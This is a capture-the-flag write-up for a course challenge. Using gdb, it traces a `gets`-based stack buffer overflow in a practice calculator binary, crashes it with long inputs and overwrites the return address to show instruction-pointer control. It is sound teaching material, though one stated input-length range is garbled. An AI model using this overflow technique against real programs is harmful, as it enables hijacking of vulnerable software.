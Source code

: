 ### Fuzzy calculator
>Our startup has developed an advanced calculator app for 64-bit Linuxes. Unfortunately, the app has a serious memory safety problem. What is more, our competitors have a similar products without these kind of problems. We have act quickly before the market reacts and gets too much stacked against us. Can you trace down the exact point where the problem occurs? http://sec-mooc-1.cs.helsinki.fi/clock/a2f79db3-c910-482e-baa2-b4da7b3caa99/clock (Note that the address should include all leading zeroes and the hexadecimal prefix e.g. 0x0000000000000001)

The title of the challenge suggests fuzzing but after messing around with it a few times and seeing it wasn't very complicated I decided to look at it in gdb.
```
root@kali:~/temp/fuzzy# gdb ./clock
...
(gdb) set disassembly-flavor intel
(gdb) disass main
Dump of assembler code for function main:
   0x0000000000400256 <+0>:	push   rbp
   0x0000000000400257 <+1>:	mov    rbp,rsp
   0x000000000040025a <+4>:	sub    rsp,0x138b0
   0x0000000000400261 <+11>:	mov    DWORD PTR [rbp-0x138a4],edi
   0x0000000000400267 <+17>:	mov    QWORD PTR [rbp-0x138b0],rsi
   0x000000000040026e <+24>:	mov    edi,0x407660
   0x0000000000400273 <+29>:	call   0x4006d9 <puts>
   0x0000000000400278 <+34>:	mov    edi,0x407688
   0x000000000040027d <+39>:	call   0x4006d9 <puts>
   0x0000000000400282 <+44>:	lea    rax,[rbp-0x138a0]
   0x0000000000400289 <+51>:	mov    rdi,rax
   0x000000000040028c <+54>:	mov    eax,0x0
   0x0000000000400291 <+59>:	call   0x4005f6 <gets>
... 
```
What immediately jumped out to me was the `gets` call. `gets` reads a line from stdin and saves it to a buffer but doesn't check if the buffer is big enough. This causes a buffer overflow if the string is too long.

Funnily enough first I was so excited seeing `gets` within like a minute of downloading the challenge that I didn't look at how big the buffer actually was. The command `sub    rsp,0x138b0` sets up the stack for the buffer by substracting `0x138b0`  (`80048` in decimal) from the stack pointer. 

So after a few attempts to make it crash without success I went back to see just how big the buffer was and only then realised to craft a long enough input.
```
root@kali:~/temp/fuzzy# python -c 'print "1" * 90000' | ./clock
Welcome to the cyber calculator!
Please type a calculation to proceed. (For example 1+1)
Segmentation fault
```
There's a crash and now for the flag we need to give a memory address. We can use GDB for this but because the calculator takes input from stdin we first need to write our input to a file and then redirect the file as input inside GDB:

```
root@kali:~/temp/fuzzy# python -c 'print "1" * 90000' > ff
root@kali:~/temp/fuzzy# gdb clock
...
(gdb) r < ff
Starting program: /root/temp/fuzzy/clock < ff
Welcome to the cyber calculator!
Please type a calculation to proceed. (For example 1+1)

Program received signal SIGSEGV, Segmentation fault.
0x0000000000403670 in memcpy ()
```
And we get our flag, `0x0000000000403670`. 


#### Commentary:

I got lucky in that in my manual testing I put in a long enough input for the program to crash at memcpy to actually get the flag. Many people in the IRC/Matrix channel had problems because they got the program to crash but at a different point.

If your input is shorter than ~83500 characters but longer than 800040 you won't overflow enough and start getting a different crash. The crash will happen at the very end of the program where it's about to return from main.

Let's give an input of "1" * 81000:

```
root@kali:~/temp/fuzzy# python -c 'print "1"*81000' > ff
root@kali:~/temp/fuzzy# gdb clock
...
(gdb) r < ff
Starting program: /root/temp/fuzzy/clock < ff
Welcome to the cyber calculator!
Please type a calculation to proceed. (For example 1+1)
error

Program received signal SIGSEGV, Segmentation fault.
0x000000000040041c in main ()
(gdb) x/i 0x000000000040041c
=> 0x40041c <main+454>:	retq
(gdb) x/xg $rsp
0x7fffffffe258:	0x3131313131313131
```

So we are crashing at the very end of the program when main is about to return. The reason why we are crashing here is that `ret` is popping a value from stack (at RSP, the stack pointer) and is trying to put it as instruction pointer (RIP). But in x86-64 the maximum address size is `0x00007FFFFFFFFFFF` so `0x3131313131313131` is not a valid address. The address is not allowed so we crash at the `ret` instruction.

Now if we craft our overflow to have a valid address for RIP we actually take control of it:
```
root@kali:~/temp/fuzzy# python -c 'print "1"*80040 + "2" * 6 '> ff
root@kali:~/temp/fuzzy# gdb clock
...
(gdb) r < ff
Starting program: /root/temp/fuzzy/clock < ff
Welcome to the cyber calculator!
Please type a calculation to proceed. (For example 1+1)
error

Program received signal SIGSEGV, Segmentation fault.
0x0000323232323232 in ?? ()
```
0x32 = "2" and because of endianness "222222" ends up being "0x0000323232323232".

Note that the above only applies to x86-64 and with 32 bit binaries things are a bit (heh) different.

